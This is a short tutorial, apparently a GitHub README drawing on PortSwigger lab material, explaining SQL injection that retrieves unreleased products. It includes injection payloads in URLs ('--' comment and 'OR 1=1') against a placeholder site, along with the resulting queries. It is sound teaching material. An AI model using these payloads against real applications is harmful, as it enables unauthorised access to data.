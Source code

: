 # Retrieving hidden data

Imagine a shopping application that displays products in different categories. When the user clicks on the **Gifts** category, their browser requests the URL:
```bash
https://insecure-website.com/products?category=Gifts
```
This causes the application to make a SQL query to retrieve details of the relevant products from the database:
```bash
SELECT * FROM products WHERE category = 'Gifts' AND released = 1
```
This SQL query asks the database to return:
all details `(*)`<br>
from the `products` table<br>
where the `category` is `Gifts`<br>
and `released` is `1`<br>


The application doesn't implement any defenses against SQL injection attacks. This means an attacker can construct the following attack, for example:
```bash
https://insecure-website.com/products?category=Gifts'--
```
This results in the SQL query:
```bash
SELECT * FROM products WHERE category = 'Gifts'--' AND released = 1
```
Crucially, note that `--` is a comment indicator in SQL
You can use a similar attack to cause the application to display all the products in any category, including categories that they don't know about:
```bash
https://insecure-website.com/products?category=Gifts'+OR+1=1--
```
This results in the SQL query:
```bash
SELECT * FROM products WHERE category = 'Gifts' OR 1=1--' AND released = 1
```

https://github.com/offensivecyber03/PortSwigger/assets/71892943/50dc9e01-37ca-4745-aaa6-b75a566f9484

